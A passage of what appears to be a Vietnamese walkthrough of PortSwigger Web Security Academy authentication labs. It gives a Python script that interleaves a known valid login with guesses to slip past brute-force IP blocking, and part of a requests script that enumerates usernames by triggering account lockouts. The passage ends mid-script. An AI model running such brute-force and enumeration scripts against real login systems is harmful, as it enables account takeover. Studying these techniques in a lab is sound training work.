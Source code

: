 
- Cách 2: Tạo lại wordlist mới với cách là cứ cách 2 mật khẩu sẽ là 1 mật khẩu đúng.

Và whitelist username mới với cách là cứ 2 username carlos sẽ là 1 username wiener.

```python
# ---- Danh sách gốc ----
with open("password.txt", "r") as f:
    passwords = [line.strip() for line in f]

# ---- Mật khẩu đúng để chèn vào ----
good_password = "peter"
good_username = "wiener"
target_username = "carlos"

# ---- Tạo danh sách mật khẩu đã chèn ----
passwords_mixed = []
for i in range(len(passwords)):
    passwords_mixed.append(passwords[i])
    # Sau mỗi 2 mật khẩu brute-force → chèn 1 mật khẩu đúng
    if (i + 1) % 2 == 0:
        passwords_mixed.append(good_password)

# ---- Tạo danh sách username tương ứng ----
usernames_mixed = []
for i in range(len(passwords_mixed)):
    # Cứ mỗi 3 dòng → dòng thứ 3 là username hợp lệ
    if (i + 1) % 3 == 0:
        usernames_mixed.append(good_username)
    else:
        usernames_mixed.append(target_username)

# ---- Kiểm tra kết quả ----
for i in range(len(passwords_mixed)):
    print(f"{usernames_mixed[i]} : {passwords_mixed[i]}")
```


## Lab: Username enumeration via account lock

**END goal** Liệt kê ra 1 username hợp lệ, brute-force password của nó sau đó đăng nhập vào account này.

- Ta nhận ra ở web này có cơ chế nếu username không hợp lệ thì dù ta có brute-force như nào đi chăng nữa nó vẫn sẽ trả về "Invalid username or password"

- Nhưng khi username hợp lệ thì ta chỉ cần đăng nhập sai 3 lần sẽ bị lock lại 1 minute 

==>Ta tạo 1 script python tìm username hợp lệ bằng cách này:

```python
import requests
url = "https://0ae000930362eff0810d25c2002f0075.web-security-academy.net/login"
cookies = {
    "session": "1YoE63fxmzOawJr7ZxVWL94Okoa8GJI0"
}
fake_pwd = ["fake_1", "fake_2", "fake_3", "fake_4"]
with open("username.txt", "r") as f:
    usernames = [line.strip() for line in f]
    
for username in usernames:
    print(f"[@] Trying username: {username}")
    locked_out = False
    
    for pwd in fake_pwd:
        data = {
            "username": username,
            "password": pwd
```